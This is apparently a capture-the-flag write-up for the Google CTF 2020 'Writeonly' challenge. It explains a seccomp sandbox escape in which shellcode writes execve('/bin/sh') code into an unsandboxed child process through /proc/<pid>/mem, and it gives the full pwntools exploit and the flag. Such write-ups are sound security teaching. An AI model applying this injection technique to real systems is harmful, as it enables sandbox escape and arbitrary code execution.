 
# Writeonly 
### Sandbox - Easy
Statically linked binary - it mmaps a RWX region, reads the length of shellcode from us, then reads that much data from stdin into the mmaped region. It then installs some strict seccomp and executes our shellcode. The goal is to read a file - /home/user/flag. However. read is BANNED. In fact, this seccomp is a whitelist not a blacklist, and few useful things are allowed. 
For our purposes, we'll use open, lseek and write. 

First, the binary forks. The child process does some sort of loop in which it continuously reads 4 bytes out of /home/user/flag and checks it against `CTF{`.The parent reads the shellcode, installs seccomp and runs the shellcode. Since the seccomp is done after forking, the child does not inherit seccomp. This means we can begin to hijack the memory of the child from the parent in our shellcode, and force the child to do things that we cannot. The binary prints the PID of the child, so we can use `/proc/<pid>/mem`. 
1. Build `"/proc/<pid>/mem"` on the stack using push and mov 
2. `open` this file 
3. `lseek` it so that we can write to the `read` function of the child process 
4.  Build shell popping shellcode on the stack 
5. `write` shell popping shellcode to the `read()` function
6. To prevent the parent process exiting before the shell has time to pop, use `jmp $` to continually jump to the current RIP, keeping it alive
7.  This works, and a shell is popped. From there, we cat flag to get the flag. 
```py
from pwn import *
context.arch = 'amd64'
e = ELF("./chal")
p = e.process() if args.LOCAL else remote('writeonly.2020.ctfcompetition.com', 1337)
p.recvuntil("[DEBUG] child pid: ")
pid = int(p.recvline())
p.clean()
filename = f"/proc/{pid}/mem".encode()
filename = filename.ljust(16,b'\x00')
code = ""
for i in range(0,len(filename),8):
	num = hex(u64(filename[i:i+8]))
	code = f"mov rbx,{num} ; push rbx ; " + code
code += "mov rbx,rsp ; mov rdi,rbx ; mov rax,2 ; mov rsi,0x2 ; syscall ; mov r9,rax ; mov rdi,rax ; mov rsi, 0x44fce8 ; mov rdx,0 ; mov rax,0x8 ; syscall; " 
malcode = b"/bin/sh\x00" + asm("mov rdi, 0x44fce8 ; mov rsi,0 ; mov rdx,0 ; mov rax,0x3b ; syscall") 
malcode = malcode.ljust(40,b'\x00')
newcode = "" 
for i in range(0,len(malcode),8):
	num = hex(u64(malcode[i:i+8]))
	newcode = f"mov rbx,{num} ; push rbx ; " + newcode
code += newcode
code += "mov rdi,r9 ; mov rsi,rsp ; mov rdx,0x28 ; mov rax,0x1 ; syscall ; jmp $"
print(code)
shellcode = asm(code)
p.sendline(str(len(shellcode)))
p.sendline(shellcode)
p.interactive()
```
#### CTF{why_read_when_you_can_write}

